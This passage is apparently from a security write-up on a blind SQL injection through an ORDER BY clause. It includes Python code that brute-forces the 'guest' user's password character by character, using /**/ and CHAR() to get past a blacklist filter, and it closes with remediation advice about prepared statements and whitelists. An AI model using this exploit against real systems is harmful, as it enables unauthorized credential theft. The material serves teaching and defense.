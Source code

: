 With this, we can get the `guest` password using the `ORDER BY`
function. Doing this manually would take quite a while, let’s automatize
it using `Python`. The first thing that we need is a function that makes
our queries and returns the response:

**make request function.**

``` Python
def make_request(parms):
    """
    Makes the request
    """
    response = requests.get(URL, headers=HEADERS, params=parms,
                            cookies=COOKIES)
    return response.text
```

Then we need to iterate through each element of the password and each
`ASCII` character:

**iterative query.**

``` Python
# Length of the password
for i in range(8):
  # All ASCII table
  for j in range(0, 128):
    query = 'if(mid((select/**/passwd/**/from/**/users/**/where/**/user/**/in(CHAR(103,117,101,115,116))),'+str(i)+',1)/**/in(CHAR('+str(j)+')),id,name)'
```

And finally, we check whether the list is ordered by id:

**iterative query.**

``` Python
check = ">Description</th></tr></thead><tbody><tr><td>5"
if check in resp:
  PASSWORD += chr(j)
  break
```

That’s it, create the exploit, execute it, and wait for the result. This
could be done using any other query, for example, getting the `MySQL`
user password hash.

## Solution

The first thing that someone with this problem needs to do is to
implement prepared statements; there is no way out of it. Injections can
occur at almost any (if not all) database provider. With these
statements, the software will present a robust data querying and discard
the use of dynamic queries.

The next step is to execute whitelists to validate user input. When the
developers use blacklist filtering, as in the examples above, there is a
risk of missing some parameter that can allow the injection. Whitelists
are a better approach because they only allow what is in them and
nothing else.

